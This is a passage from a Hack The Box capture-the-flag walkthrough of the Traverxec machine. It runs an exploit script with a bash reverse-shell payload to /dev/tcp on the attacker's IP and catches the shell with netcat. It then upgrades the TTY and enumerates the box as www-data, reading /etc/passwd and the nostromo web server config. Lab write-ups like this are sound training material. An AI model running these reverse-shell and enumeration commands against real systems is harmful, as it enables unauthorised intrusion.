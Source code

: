### Get reverse shell

```bash
python 47837.py 10.10.10.165 80 '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.46/1111 0>&1"'
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Traverxec]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.46] from (UNKNOWN) [10.10.10.165] 35290
bash: cannot set terminal process group (457): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@traverxec:/usr/bin$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Traverxec]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
www-data@traverxec:/usr/bin$
```

## From www-data to david


### Found htpasswd

Do some basic enum

```bash
www-data@traverxec:/usr/bin$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
david:x:1000:1000:david,,,:/home/david:/bin/bash
```

Since i'm have `www-data`, find what I owned

```bash
www-data@traverxec:/usr/bin$ find / -user www-data 2>/dev/null|grep -vE '^/proc|^/run|^/sys|^/tmp'
/dev/pts/0
/var/nostromo/logs
/var/nostromo/logs/nhttpd.pid
www-data@traverxec:/$ cd /var/nostromo/logs
www-data@traverxec:/var/nostromo/logs$ ls -la
total 12
drwxr-xr-x 2 www-data daemon   4096 Aug  2 01:58 .
drwxr-xr-x 6 root     root     4096 Oct 25  2019 ..
-rw-r--r-- 1 www-data www-data    4 Aug  2 01:58 nhttpd.pid
www-data@traverxec:/var/nostromo/logs$ cat nhttpd.pid
460
www-data@traverxec:/var/nostromo/logs$ cd ..
www-data@traverxec:/var/nostromo$ ls -a
.  ..  conf  htdocs  icons  logs
www-data@traverxec:/var/nostromo$ cd conf
www-data@traverxec:/var/nostromo/conf$ ls
mimes  nhttpd.conf
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
```